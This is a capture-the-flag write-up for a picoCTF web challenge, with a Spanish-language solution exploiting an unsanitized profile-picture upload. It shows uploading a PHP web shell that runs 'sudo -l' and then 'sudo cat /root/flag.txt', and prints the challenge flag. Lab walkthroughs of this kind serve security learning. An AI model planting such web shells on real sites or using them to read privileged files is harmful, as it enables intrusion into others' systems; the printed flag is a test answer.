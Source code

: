 #### Description
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

Additional details will be available after launching your challenge instance.

#### Hints
1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check `sudo -l`


#### Solución

1. En la terminal de kali linux creamos un archivo llamado "Shell.php" y en el escribimos esta linea  <?php echo exec("sudo -l");?>
2. En el sitio web que nos da picoCTF subimos ese archivo, nos dará la ruta, la copiamos y pegamos en la ruta de arriba y damos enter.
		Nos dara como respuesta --> **(ALL) NOPASSWD: ALL**
3. Volvemos a entrar a el archivo "Shell.php" pero ahora borramos lo que tiene el exec y lo cambiamos por <?php echo exec("sudo cat /root/flag.txt");?>
4. En el sitio web que nos da picoCTF subimos ese archivo, nos dará la ruta, la copiamos y pegamos en la ruta de arriba y damos enter para que ahora nos de la bandera.
```
picoCTF{wh47_c4n_u_d0_wPHP_5f894f6c}
```


